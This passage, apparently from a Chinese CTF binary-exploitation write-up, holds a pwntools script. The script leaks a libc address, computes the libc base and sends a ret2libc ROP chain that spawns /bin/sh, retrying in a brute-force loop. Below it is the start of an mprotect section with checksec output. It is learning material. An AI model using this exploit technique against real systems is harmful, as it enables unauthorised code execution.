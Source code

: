 ```

    p.sendline("a")
    p.recvuntil('again?\n')
    p.sendline('a'*0x2c + '\xde\x08')
    p.recv(4)
    
    if debug:
        libc_start_main = u32(p.recv(4)) - 246
    else:
        libc_start_main = u32(p.recv(4)) - 247

    print 'libc_start_main is ', hex(libc_start_main)

    libc_base = libc_start_main - libc.symbols['__libc_start_main']
    print 'libc_base is ', hex(libc_base)

    rop = 'a'*44
    rop += p32(libc_base + libc.symbols['system']) + p32(0) + p32(libc_base + libc.search('/bin/sh').next())
    p.sendline(rop)
    p.interactive()


while True:
    try:
        pwn()
    except Exception as e:
        continue
```

### mprotect修改执行权限
参考链接：
+ http://man7.org/linux/man-pages/man2/mprotect.2.html
+ https://blog.csdn.net/Roland_Sun/article/details/33728955

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
